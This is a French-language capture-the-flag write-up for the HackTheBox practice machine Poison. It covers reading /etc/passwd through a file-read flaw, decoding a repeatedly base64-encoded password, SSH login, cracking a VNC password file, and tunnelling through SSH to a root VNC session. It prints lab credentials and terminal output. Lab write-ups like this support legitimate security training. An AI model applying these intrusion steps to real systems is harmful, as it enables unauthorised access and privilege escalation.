 ```yaml
---
title: HTB | Poison
description: Poison is a fairly easy machine which focuses mainly on log poisoning and port forwarding/tunneling. The machine is running FreeBSD which presents a few challenges for novice users as many common binaries from other distros are not available.
slug: poison-htb
date: 2025-03-04 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Medium
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Poison cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Poison</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.84</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Medium</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
charix : `Charix!2#4%6&8(0`

## Enumeration

### nmap
```bash
22 - ssh
80 - http freebsd apache
```

## Foothold

### charix - user flag
Sur la page d'accueil on trouve un barre de recherche avec un vuln qui nous permet d'afficher n'importe quel fichier. On affiche /etc/passwd et on trouve le user `charix`.
Ensuite, on trouve ce fichier sur la page web du port 80 de la machine. Il indique que c'est du base64 encodé 13 fois :
```bash
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
```
On trouve ce script bash sur un forum qui permet de rapidement effectué 13 fois un base64 -d :
```bash
state=$(<b64.txt)
for i in {1..13}; do
   state=$(<<<"$state" base64 --decode)
done
echo "$state"
```
On trouve rapidement le mot de passe, puis on se connecte en SSH :
```bash
┌──(kali㉿kali)-[~/htb]
└─$ cd Poison 
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison]
└─$ vim b64.txt 
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison]
└─$ state=$(<b64.txt)
for i in {1..13}; do
   state=$(<<<"$state" base64 --decode)
done
echo "$state"
Charix!2#4%6&8(0
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison]
└─$ ssh charix@10.10.10.84 
(charix@10.10.10.84) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Man pages are divided into section depending on topic.  There are 9 different
sections numbered from 1 (General Commands) to 9 (Kernel Developer's Manual).
You can get an introduction to each topic by typing

        man <number> intro

In other words, to get the intro to general commands, type

        man 1 intro
charix@Poison:~ % cat user.txt
eaac.....209c
```
On a donc : 
charix : `Charix!2#4%6&8(0`


## Privilege Escalation

### secret.zip
On découvre un fichier secret.zip chiffré à la racine du home de charlix. On peut le déchiffrer avec le meme mdp que popur le ssh de charlix:
`Charix!2#4%6&8(0`

On découvre un fichier de 8 caracteres chiffrés

### VNC launched by root
En regardant les process executés par root, on découvre une sessions VNC ouverte sur le port 5901, lancé par root.
Si on arrive a s'y connecté, on peut optentiellemnt avec un shell en tant que root.
```bash
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
root      1  0.0  0.1   5408  1040  -  SLs  22:56    0:00.00 /sbin/init --                                                                                                                                                                
root    319  0.0  0.5   9560  5052  -  Ss   22:56    0:00.09 /sbin/devd
root    390  0.0  0.2  10500  2452  -  Ss   22:56    0:00.04 /usr/sbin/syslogd -s
root    543  0.0  0.5  56320  5396  -  S    22:57    0:01.18 /usr/local/bin/vmtoolsd -c /usr/local/share/vmware-tools/tools.conf -p /usr/local/lib/open-vm-tools/plugins/vmsvc
root    620  0.0  0.7  57812  7052  -  Is   22:57    0:00.01 /usr/sbin/sshd
root    625  0.0  1.1  99172 11516  -  Ss   22:58    0:00.06 /usr/local/sbin/httpd -DNOHTTPACCEPT
root    642  0.0  0.6  20636  6140  -  Ss   22:58    0:00.03 sendmail: accepting connections (sendmail)
root    650  0.0  0.2  12592  2436  -  Ss   22:59    0:00.01 /usr/sbin/cron -s
root    529  0.0  0.9  23620  8872 v0- I    22:57    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
root    540  0.0  0.7  67220  7064 v0- I    22:57    0:00.01 xterm -geometry 80x24+10+10 -ls -title X Desktop
root    541  0.0  0.5  37620  5312 v0- I    22:57    0:00.00 twm
root    697  0.0  0.2  10484  2076 v0  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv0
root    698  0.0  0.2  10484  2076 v1  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv1
root    699  0.0  0.2  10484  2076 v2  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv2
root    700  0.0  0.2  10484  2076 v3  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv3
root    701  0.0  0.2  10484  2076 v4  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv4
root    702  0.0  0.2  10484  2076 v5  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv5
root    703  0.0  0.2  10484  2076 v6  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv6
root    704  0.0  0.2  10484  2076 v7  Is+  22:59    0:00.00 /usr/libexec/getty Pc ttyv7
root    617  0.0  0.4  19660  3616  0  Is+  22:57    0:00.00 -csh (csh)
```

### Dechiffrement du fichier secret
Finalement, on emet l'hypothese que le fichier secret serait un fichier de mot de passe chiffré pour vnc. On tente d'utiliser un outil github pour le déchiffré :
https://github.com/jeroennijhof/vncpwd

```bash
┌──(kali㉿kali)-[~/htb/Poison]
└─$ git clone https://github.com/jeroennijhof/vncpwd.git       
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28 (from 1)
Receiving objects: 100% (28/28), 22.15 KiB | 1.85 MiB/s, done.
Resolving deltas: 100% (9/9), done.
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison]
└─$ cd vncpwd               
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison/vncpwd]
└─$ ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd.c
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison/vncpwd]
└─$ make                             
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison/vncpwd]
└─$ ./vncpwd ../secret               
Password: VNCP@$$!
```
On obtient le mot de passe:
`VNCP@$$!`

### Connexion sur la session VNC - root flag
On peut se connecter a une session VNC facilement en utilisant l'outil `vncviewer`. Mais le port 5901 n'est dispo qu'en local sur la machine !
Je propose de résoudre ce probleme en faisant du port forwarding sur ma machine, à l'aide l'option -L de ssh.

Ensuite j'ai pu utiliser vncviewer et ouvrir la session avec le mot de passe obtenu
```bash
┌──(kali㉿kali)-[~/htb/Poison]
└─$ ssh charix@10.10.10.84 -L 5901:localhost:5901
Charix!2#4%6&8(0
(charix@10.10.10.84) Password for charix@Poison:
Last login: Tue Mar  4 23:11:10 2025 from 10.10.14.19
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

---------------------------------------------

┌──(kali㉿kali)-[~/htb/Poison/vncpwd]
└─$ nmap localhost -p 5901 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-04 17:35 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000067s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE
5901/tcp open  vnc-1

Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison/vncpwd]
└─$ vncviewer localhost
vncviewer: ConnectToTcpAddr: connect: Connection refused
Unable to connect to VNC server
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Poison/vncpwd]
└─$ vncviewer localhost:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding

--------- VNCVIEWER -------------

root@Poison:~ # whoami
root
root@Poison:~ # cat root.txt
716d.....61f5
```
